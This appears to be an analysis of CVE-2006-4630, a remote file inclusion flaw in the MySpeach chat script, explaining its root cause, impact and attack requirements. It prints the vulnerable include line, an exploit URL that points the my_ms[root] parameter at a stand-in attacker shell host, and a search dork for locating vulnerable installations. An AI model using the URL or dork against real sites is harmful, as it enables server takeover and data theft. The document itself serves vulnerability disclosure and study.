 Based on the provided content, here's an analysis of CVE-2006-4630:

**Root cause of vulnerability:**
- The vulnerability is due to a flaw in the `jscript.php` file of MySpeach versions 3.0.2 and below. Specifically, the `include` function uses a variable `my_ms["root"]` to define the path to the included file (`error.php`).

**Weaknesses/vulnerabilities present:**
- **Remote File Inclusion (RFI):** The `my_ms["root"]` variable is directly controlled by user input via the query string, allowing an attacker to specify a remote URL, leading to arbitrary code execution by including a malicious file from a remote server.
- **Lack of Input Validation:** The application fails to validate or sanitize the user-supplied input for the `my_ms["root"]` parameter before using it in an `include` statement.

**Impact of exploitation:**
- **Arbitrary Code Execution:** By including a malicious file, the attacker can execute arbitrary PHP code on the server hosting the vulnerable MySpeach application. This could lead to complete compromise of the server.
- **Data Theft/Modification:** Successful code execution could allow the attacker to read, modify, or delete sensitive data, potentially causing significant damage.
- **Malware Installation:** The attacker may be able to install malware on the compromised server.

**Attack vectors:**
- **HTTP GET Request:** The attack vector is a specially crafted HTTP GET request to `jscript.php` with a modified `my_ms[root]` parameter.
- The vulnerable code exists within the `jscript.php` file.

**Required attacker capabilities/position:**
- **Network Access:** The attacker needs network access to the server hosting the vulnerable MySpeach application.
- **Knowledge of Vulnerability:** The attacker needs to know about the vulnerable parameter (`my_ms[root]`) and the path to the vulnerable script (`jscript.php`).
- **Malicious Server/File:** The attacker must have access to a remote server with a malicious file that will be included.
- **No authentication needed**

**Technical details:**
The vulnerable code snippet is:
```php
include($my_ms["root"].'/error.php');
```
The exploit URL is:
```
http://sitename.com/[Script Path]/jscript.php?my_ms[root]=http://SHELLURL.COM?
```
Where `SHELLURL.COM` is the location of the attacker's malicious PHP script.

**Additional Information:**

The exploit-db entry provides the following information
- **Vulnerable Application:** MySpeach <= v3.0.2
- **Vendor site:** http://www.graphiks.net/telecharger/scripts/myspeach.zip
- **Dork:** allinurl: /myspeach/